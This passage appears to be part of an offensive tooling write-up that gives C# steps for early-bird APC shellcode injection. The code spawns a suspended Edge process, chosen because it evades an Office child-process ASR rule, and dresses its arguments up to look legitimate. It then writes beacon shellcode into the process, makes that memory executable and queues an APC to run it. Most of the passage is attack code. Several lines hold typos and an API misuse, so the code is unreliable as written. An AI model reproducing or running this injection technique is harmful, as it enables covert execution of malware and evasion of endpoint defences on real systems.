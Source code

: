 2. Spawn the target process. MS Edge is excluded in the "Block all Office applications from creating child processes" ASR rule and is also a good candidate for performing outbound HTTPS connections. We can dress the command line arguments up to make it look more legitimate. 
```
var startup = new STARTUPINFO { dwFlags = 0x00000001};
startup.cb = Marshal.SizeOf(startup);

var success = CreateProcessW(
@"C:\Program Files (x86)\Microsoft\Edge\Applications\msedge.exe",
@"""C:\Program Files\(x86)\Microsoft\Edge\Applications\msedge.exe --no-startup-window --win-session-start /prefetch:5""",
IntPtr.Zero,
IntPtr.Zero,
false,
CREATION_FLAGS.CREATE_NO_WINDOW | CREATION_FLAGS.CREATE_SUSPENDED,
IntPtr.Zero,
@"C:\Program Files (x86)\Microsoft\Edge\Application",
ref startup,
out var processInfo
);
```

3. Allocate some RW memory
```
var baseAddress = VirtualAllocEx(
processInfo.hProcess,
IntPtry.Zero,
(uint)shellcode.Length,
ALLOCATION_TYPE.MEM_COMMIT | ALLOCATION_TYPE.MEM_RESERVE,
PROTECTION_FLAGS.PAGE_READWRITE
);
```

4. Copy the beacon shellcode into it
```
success = WriteProcessMemory(
processInfo.hProcess,
baseAddress,
shellcode,
(uint)shellocde.Length,
out _);
```

5. Flip the memory protection from RW to RX
```
success = VirtualProtect(
processInfo.hProcess,
baseAddress,
(uint)shellcode.Length,
PROTECTION_FLAGS.PAGE_EXECUTE_READ,
out _);
```

6. Queue the APC on the primary thread, resume it, and close the handles
```
_ = Win32.QueueUserAPC(
baseAddress,
processInfo.hThread,
IntPtr.Zero);

Win32.ResumeThread(processInfo.hThread);

Win32.CloseHandle(processInfo.hThread);
Win32.CloseHandle(processInfo.hProcess);
```
